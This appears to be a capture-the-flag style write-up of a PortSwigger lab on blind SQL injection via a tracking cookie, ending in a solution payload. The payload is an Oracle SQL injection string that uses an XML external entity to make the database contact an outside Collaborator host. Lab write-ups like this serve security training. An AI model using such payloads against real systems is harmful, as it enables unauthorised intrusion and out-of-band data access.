 
### Lab description


This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

### hint

> You cant use other services **only** the burp collaborator public service.


### Lab solution

![](/static/img/Pasted_image_20230605114828.png)

- Payload: `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://aaaaa.oastify.com/"> %remote;]>'),'/l') FROM dual--`
